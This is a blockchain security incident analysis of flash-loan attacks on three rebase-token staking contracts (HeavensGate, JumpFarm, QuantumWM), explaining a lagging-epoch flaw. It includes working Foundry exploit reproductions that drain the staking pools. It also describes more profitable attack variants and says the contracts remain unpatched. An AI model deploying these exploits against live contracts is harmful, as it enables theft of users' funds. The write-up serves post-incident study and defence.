








# 230905-HeavensGate-JumpFarm-QuantumWN

Following the [FloorDAO attack incident](./230905_FloorDAO.md), three other rebase token related projects fell victim to attacks on the same day. These attacks were all initiated by the same [attacker](https://etherscan.io/address/0x6ce9fa08f139f5e48bc607845e57efe9aa34c9f6). This article aims to provide a unified analysis of these attacks.

Since a detailed analysis of the FloorDAO incident has already been conducted, this article will focus on the differences between these attacks and the FloorDAO incident.

## Attack Transactions

### HeavensGate

HeavensGate was attacked twice.



The attacker profited approximately 6.45 ETH from [AttackTx1](https://explorer.phalcon.xyz/tx/eth/0xe28ca1f43036f4768776805fb50906f8172f75eba3bf1d9866bcd64361fda834).



The attacker profited approximately 1.4 ETH from [AttackTx2](https://explorer.phalcon.xyz/tx/eth/0x8e1b0ab098c4cc5f632e00b0842b5f825bbd15ded796d4a59880bb724f6c5372).

From the Invocation Flow perspective, these attacks were quite similar to the FloorDAO attack. They involved borrowing the corresponding tokens from Uniswap pairs and then executing a `stake-unstake` loop. The second attack transaction had a higher number of loop iterations, indicating that the attacker identified additional profit opportunities and launched a subsequent attack.

### JumpFarm



The attacker profited approximately 2.4 ETH from the [JumpFarm attack](https://explorer.phalcon.xyz/tx/eth/0x6189ad07894507d15c5dff83f547294e72f18561dc5662a8113f7eb932a5b079).



From the Invocation Flow perspective, the JumpFarm attack differed slightly from the FloorDAO attack. Instead of borrowing tokens directly from Uniswap pairs, the attacker borrowed WETH from Balancer and then exchanged it for the corresponding tokens through WETH.

### QuantumWM



The attacker profited approximately 0.6 ETH from the [QuantumWM attack](https://explorer.phalcon.xyz/tx/eth/0xa4659632a983b3bfd1b6248fd52d8f247a9fcdc1915f7d38f01008cff285d0bf).



From the Invocation Flow perspective, the QuantumWM attack was similar to the JumpFarm attack. It also involved borrowing WETH from Balancer and then exchanging it for the corresponding tokens through WETH.

## Vulnerability

Clearly, these attacks occurred due to the presence of **lagging epoch**.

### HeavensGate

The `stake` function in the [staking contract](https://etherscan.io/address/0x8ebd6c7d2b79ca4dc5fbdec239a8bb0f214212b8#code) for HeavensGate is as follows:

```solidity
/**
* @notice stake HATE
* @param _to address
* @param _amount uint
*/
function stake(address _to, uint256 _amount) external {
    HATE.transferFrom(msg.sender, address(this), _amount);
    rebase();
    sHATE.transfer(_to, _amount);
}
```

Similar to Floor, the `stake` function in HeavensGate also has a logic vulnerability where the token transfer occurs before the rebase operation.

### JumpFarm

The `stake` function in the [staking contract](https://etherscan.io/address/0x05999eb831ae28ca920ce645a5164fbdb1d74fe9#code) of JumpFarm is as follows:

```solidity
/// @notice stake TOKEN
/// @param _to address
/// @param _amount uint
function stake(address _to, uint256 _amount) external {
    rebase();
    TOKEN.transferFrom(msg.sender, address(this), _amount);
    sTOKEN.transfer(_to, _amount);
}
```

Unlike Floor and HeavensGate, JumpFarm's `stake` function first executes the `rebase` before performing the `transfer`. Therefore, there is no issue with this function.

Hence, the reason for the attack's profitability should be the **lagging epoch**, allowing the attacker to continuously trigger the `rebase` after staking and mint additional tokens. With no bugs in the `stake` function, the rate of token distribution is quite high. According to its [distributor contract](https://etherscan.io/address/0x1E5F868a297fA80E6A03df69bc3e21c8145FCBb4#readContract), the rate of distribution with each `rebase` is 1%, which is 40 times higher than Floor's rate of 0.025%.

Therefore, the attacker only needs to continuously call the `rebase` function after staking. The repeated `stake-unstake` loop may simply be an imitation of the FloorDAO attack, wasting gas.

### QuantumWM

The `stake` function in the [staking contract](https://etherscan.io/address/0x69422c7f237d70fcd55c218568a67d00dc4ea068#code) of QuantumWM is similar to JumpFarm's:

```solidity
/// @notice stake QWA
/// @param _to address
/// @param _amount uint
function stake(address _to, uint256 _amount) external {
    rebase();
    QWA.transferFrom(msg.sender, address(this), _amount);
    sQWA.transfer(_to, _amount);
}
```

Similar to JumpFarm, the reason for profitability here is also the **lagging epoch**. With no bugs in the `stake` function, the rate of token distribution is also 1% with each `rebase`, as per its [distributor contract](https://etherscan.io/address/0x7DB562D10eFB03eA71463f90530770B7263c2d83#readContract), which is relatively high.

## Exploit

### Reproduction

#### HeavensGate

The following exploit can be reproduced based on two AttackTx:

```solidity
function testHeavensGate1() external {
    heavensGateAttack(18069527);
}

function testHeavensGate2() external {
    heavensGateAttack(18071198);
}

function heavensGateAttack(uint256 attackBlockNumber) internal {
    vm.rollFork(attackBlockNumber);
    (, uint256 epochNumber, uint256 epochEnd, ) = hateStaking.epoch();
    emit log_named_uint("Epoch number", epochNumber);
    emit log_named_uint("Epoch end", epochEnd);
    emit log_named_decimal_uint("hate balanceOf StakingPool", hate.balanceOf(address(hateStaking)), hate.decimals());

    hate.approve(address(hateStaking), type(uint256).max);
    sHate.approve(address(hateStaking), type(uint256).max);
    if (attackBlockNumber == 18069527) {
        flashAmount =  hate.balanceOf(address(hate_weth)) * 9/10;
        hate_weth.swap(flashAmount, 0, address(this), "HeavensGate1");
    } else {
        flashAmount =  hate.balanceOf(address(hate_weth)) * 7/10;
        hate_weth.swap(flashAmount, 0, address(this), "HeavensGate2");
    }

    uint256 profitAmount = hate.balanceOf(address(this));
    emit log_named_decimal_uint("hate balance after exploit", profitAmount, hate.decimals());
    hate.approve(address(router), type(uint256).max);
    address[] memory path = new address[](2);
    path[0] = address(hate);
    path[1] = address(weth);
    router.swapExactTokensForTokensSupportingFeeOnTransferTokens(profitAmount, 0, path, address(this), block.timestamp);
    emit log_named_decimal_uint("weth balance after swap", weth.balanceOf(address(this)), weth.decimals());    
}

function uniswapV2Call(address /*sender*/, uint amount0, uint /*amount1*/, bytes calldata data) public {
    uint256 number = 0;
    uint i = 0;
    if (keccak256(data) == keccak256("HeavensGate1") || keccak256(data) == keccak256("HeavensGate2")) {
        if (keccak256(data) == keccak256("HeavensGate1")) number = 3; else number = 0x1e;
        emit log_named_decimal_uint("hate balanceOf loaned", hate.balanceOf(address(this)), hate.decimals());
        while(i < number) {
            uint balanceAttacker = hate.balanceOf(address(this));
            hateStaking.stake(address(this), balanceAttacker);
            uint sTokenBalance = sHate.balanceOf(address(this));
            hateStaking.unstake(address(this), sTokenBalance, true);
            i += 1;
        }
        uint fee = (amount0 * 3)/997+1;
        hate.transfer(msg.sender, flashAmount + fee);
    }
    else {
        number = 20;
        while(i < number) {
            uint balanceAttacker = jump.balanceOf(address(this));
            jumpStaking.stake(address(this), balanceAttacker);
            uint sTokenBalance = sHate.balanceOf(address(this));
            jumpStaking.unstake(address(this), sTokenBalance, true);
            i += 1;
        }
        uint fee = (amount0 * 3)/997+1;
        jump.transfer(msg.sender, flashAmount + fee);
    }
}
```

It is important to note that before the first attack, the Uniswap pair contains approximately 907k Hate tokens, and the staking contract holds about 577k Hate tokens. The staking contract itself has significantly fewer tokens than in the pair (the opposite is true for the FloorDAO incident). Therefore, by exploiting a logic vulnerability in the `stake` function, a significant profit can be quickly generated, depleting all of the staking contract's tokens. The first attack involved only three cycles of `stake-unstake`, resulting in the withdrawal of most of the Hate tokens from the staking contract. After the attack, the staking contract was left with only 66k Hate tokens, and the attacker gained 570k (the excess was newly minted during this process). 

(Here, looping three times and lending out only 90% of the tokens from the pool are likely parameters obtained through testing by the attacker. Excessive looping or staking too many tokens may result in an insufficient balance in the staking contract, leading to an `Insufficient HATE balance in contract` error.)

Subsequently, the attacker launched another attack. However, after this attack, the attacker gained approximately 22k Hate tokens in profit, and the staking contract's balance increased to around 580k tokens (even more than before the first attack).

Observing the second AttackTx, it can be seen that many `rebase` operations did not generate profit throughout the process. This indicates that the total token amount received during `stake` plus the newly minted tokens did not exceed the circulating supply of sHate. Thus, the subsequent token distribution occurred gradually with each `rebase`.

Examining the distributor reveals that the distribution amount during each `rebase` is 0.5%, which is 20 times that of the Floor.

In summary, the attacker's two attacks on HeavensGate were relatively crude, especially the second one. In fact, they could have obtained more Hate tokens. Due to the high token distribution rate and the large number of Hate tokens in the Uniswap pair, it would have been possible to first continuously perform `rebase` until a sufficient number of tokens were minted, and then exploit the `stake` function's bug to deplete the staking contract's tokens.

#### JumpFarm & QuantumWN

The attack vectors for these two projects are the same and can be reproduced based on AttackTx:

```solidity
function testJumpFarm() external {
    uint256 attackBlockNumber = 18070346;
    vm.rollFork(attackBlockNumber); 

    jump.approve(address(jumpStaking), type(uint256).max);
    sJump.approve(address(jumpStaking), type(uint256).max);

    address[] memory token = new address[](1);
    token[0] = address(weth);
    uint256[] memory amount = new uint256[](1);
    amount[0] = 15 * 1 ether;
    balancer.flashLoan(address(this), token, amount, "JumpFarm");

    // weth.withdraw(weth.balanceOf(address(this)));
    emit log_named_decimal_uint("eth balance after exploit", weth.balanceOf(address(this)), 18);
}

function testQuantumWN() external {
    uint256 attackBlockNumber = 18070346;
    vm.rollFork(attackBlockNumber); 

    fumog.approve(address(QWAStaking), type(uint256).max);
    sFumog.approve(address(QWAStaking), type(uint256).max);

    address[] memory token = new address[](1);
    token[0] = address(weth);
    uint256[] memory amount = new uint256[](1);
    amount[0] = 5 * 1 ether;
    balancer.flashLoan(address(this), token, amount, "QuantumWN");

    // weth.withdraw(weth.balanceOf(address(this)));
    emit log_named_decimal_uint("eth balance after exploit", weth.balanceOf(address(this)), 18);
}

function receiveFlashLoan(address[] memory /*tokens*/, uint256[] memory amounts, uint256[] memory feeAmounts, bytes memory userData) external {
    IERC20 targetToken;
    IERC20 targetsToken;
    StakingPool stakingPool;
    uint256 number;
    if (keccak256(userData) == keccak256("JumpFarm")) {
        targetToken = jump;
        targetsToken = sJump; 
        stakingPool = jumpStaking;
        number = 0x28;
    } else if (keccak256(userData) == keccak256("QuantumWN")) {
        targetToken = fumog;
        targetsToken = sFumog;
        stakingPool = QWAStaking;
        number = 0x1e;
    }
    weth.approve(address(router), type(uint256).max);
    address[] memory path = new address[](2);
    path[0] = address(weth);
    path[1] = address(targetToken);
    router.swapExactTokensForTokens(amounts[0], 0, path, address(this), block.timestamp);
    uint8 i = 0;
    while(i < number) {
        i += 1;
        uint256 amountToken = targetToken.balanceOf(address(this));
        stakingPool.stake(address(this), amountToken);
        uint256 amountsToken = targetsToken.balanceOf(address(this));
        stakingPool.unstake(address(this), amountsToken, true);
    }
    // uint256 amountToken = targetToken.balanceOf(address(this));
    // stakingPool.stake(address(this), amountToken);
    // while(i < number) {
    //     i += 1;
    //     stakingPool.rebase();
    // }
    // uint256 amountsToken = targetsToken.balanceOf(address(this));
    // stakingPool.unstake(address(this), amountsToken, true);

    targetToken.approve(address(router), type(uint256).max);
    uint amount = targetToken.balanceOf(address(this));
    emit log_named_decimal_uint("target token balance after exploit", amount, targetToken.decimals());
    
    path[0] = address(targetToken);
    path[1] = address(weth);
    router.swapExactTokensForTokensSupportingFeeOnTransferTokens(amount, 0, path, address(this), block.timestamp);
    weth.transfer(address(balancer), amounts[0]+feeAmounts[0]);
}
```

The attack vectors on both projects were the same, borrowing ETH from Balancer to purchase corresponding tokens for staking, then engaging in a `stake-unstake` loop. As mentioned earlier, since there were no bugs in the `stake` function, one could continuously `rebase` after staking, which should reduce gas costs. Additionally, every time the staked tokens were taken out through `unstake`, making it impossible to obtain the additional distribution rewards of rebase in the next `stake`. Therefore, staking only once and continuously rebasing could also yield more tokens.

The results of the scripts confirm that, with the same number of iterations, significantly lower gas costs can be achieved, and the final profits are approximately 3.3 ETH and 1.5 ETH, which is considerably higher than the original attacks' gains of 2.4 ETH and 0.6 ETH, respectively.

The reason for borrowing ETH and purchasing the corresponding tokens instead of directly performing a flash loan swap from the Uniswap pair is due to the `_transfer` function of these tokens.

Taking JumpFarm's jump token as an example, its `_transfer` function contains the following code:

```solidity
if (
    canSwap &&
    swapEnabled &&
    !swapping &&
    !automatedMarketMakerPairs[from] &&
    !_isExcludedFromFees[from] &&
    !_isExcludedFromFees[to]
) {
    swapping = true;

    swapBack();

    swapping = false;
}
```

The `swapBack` related code is as follows:

```solidity
/// @dev INTERNAL function to swap `tokenAmount` for ETH
/// @dev Invoked in `swapBack()`
function swapTokensForEth(uint256 tokenAmount) internal {
    // generate the uniswap pair path of token -> weth
    address[] memory path = new address[](2);
    path[0] = address(this);
    path[1] = uniswapV2Router.WETH();

    _approve(address(this), address(uniswapV2Router), tokenAmount);

    // make the swap
    uniswapV2Router.swapExactTokensForETHSupportingFeeOnTransferTokens(
        tokenAmount,
        0, // accept any amount of ETH
        path,
        address(this),
        block.timestamp
    );
}

/// @dev INTERNAL function to add `tokenAmount` and `ethAmount` to LP
/// @dev Invoked in `swapBack()`
function addLiquidity(uint256 tokenAmount, uint256 ethAmount) internal {
    // approve token transfer to cover all possible scenarios
    _approve(address(this), address(uniswapV2Router), tokenAmount);

    // add the liquidity
    uniswapV2Router.addLiquidityETH{value: ethAmount}(
        address(this),
        tokenAmount,
        0, // slippage is unavoidable
        0, // slippage is unavoidable
        treasury,
        block.timestamp
    );
}

/// @dev INTERNAL function to transfer fees properly
/// @dev Invoked in `_transfer()`
function swapBack() internal {
    uint256 contractBalance = balanceOf(address(this));
    uint256 totalTokensToSwap = tokensForLiquidity +
        tokensForBacking +
        tokensForTeam;
    bool success;

    if (contractBalance == 0 || totalTokensToSwap == 0) {
        return;
    }

    if (contractBalance > swapTokensAtAmount() * 20) {
        contractBalance = swapTokensAtAmount() * 20;
    }

    // Halve the amount of liquidity tokens
    uint256 liquidityTokens = (contractBalance * tokensForLiquidity) /
        totalTokensToSwap /
        2;
    uint256 amountToSwapForETH = contractBalance - liquidityTokens;

    uint256 initialETHBalance = address(this).balance;

    swapTokensForEth(amountToSwapForETH);

    uint256 ethBalance = address(this).balance - initialETHBalance;

    uint256 ethForBacking = (ethBalance * tokensForBacking) /
        totalTokensToSwap -
        (tokensForLiquidity / 2);

    uint256 ethForTeam = (ethBalance * tokensForTeam) /
        totalTokensToSwap -
        (tokensForLiquidity / 2);

    uint256 ethForLiquidity = ethBalance - ethForBacking - ethForTeam;

    tokensForLiquidity = 0;
    tokensForBacking = 0;
    tokensForTeam = 0;

    (success, ) = address(teamWallet).call{value: ethForTeam}("");

    if (liquidityTokens > 0 && ethForLiquidity > 0) {
        addLiquidity(liquidityTokens, ethForLiquidity);
        emit SwapAndLiquify(
            amountToSwapForETH,
            ethForLiquidity,
            tokensForLiquidity
        );
    }

    uint256 _balance = address(this).balance;
    IWETH(WETH).deposit{value: _balance}();
    IERC20(WETH).transfer(treasury, _balance);
}
```

When tokens are transferred, if the contract's token reserves exceed a certain threshold, a portion of the tokens will be exchanged for ETH, which will then be used to provide liquidity.

Therefore, if a direct swap is made from the pair and the pair attempts to transfer tokens to the attack contract, it will trigger the UniswapPair's reentrant lock protection when attempting to swap tokens for ETH, resulting in a revert. (In the case of using Foundry for testing, the error is `ds-math-sub-underflow`, but inspecting the trace reveals that it indeed terminates execution during the second call to `swap`.)

### Attack Flow

Let's analyze the entire attack flow of the [attacker's address](https://etherscan.io/address/0x6ce9fa08f139f5e48bc607845e57efe9aa34c9f6).



Before September 5th, the attacker had launched two previous attacks, one involving [BTC20](https://etherscan.io/address/0xe86df1970055e9caee93dae9b7d5fd71595d0e18) and the other related to [DDA](https://etherscan.io/address/0x3a01c9377b053378304a075e73b22bba61ee1dda), which we will not discuss here.



At approximately 10:00 AM on September 5th, the attacker created a contract to attack HeavensGate and promptly initiated the attack.

Less than three hours later, they created contracts to attack JumpFarm and QuantumWM, making two calls to execute these attacks.

After about another 3 hours, the attacker likely found HeavensGate still profitable and repeated the process by creating contracts and launching another attack.

Finally, on the following day, the attacker used Tornado Cash and ChangeNOW to withdraw all their profits.

It's worth noting that the attack on FloorDAO occurred around 7 AM, while this attacker began their operations around 10 AM.

## Misc

### Frontrunning Protection

Unlike the attack on FloorDAO, every transaction initiated by this attacker is tagged with `MEV Transaction` and `Flashbots`, indicating the use of FlashBots to prevent frontrunning.

### Patch

As of the time of this analysis, none of these projects have implemented patches similar to FloorDAO. Interestingly, due to the absence of patches and the projects' overall inactivity, along with no bots performing `rebase`, it appears that some individuals are still exploiting **lagging epoch** for similar attacks.

For example, [this attacker](https://etherscan.io/address/0xfbc369359ab4a0455ad1ac71ff5077b78af5d965) is able to successfully launch an attack at intervals.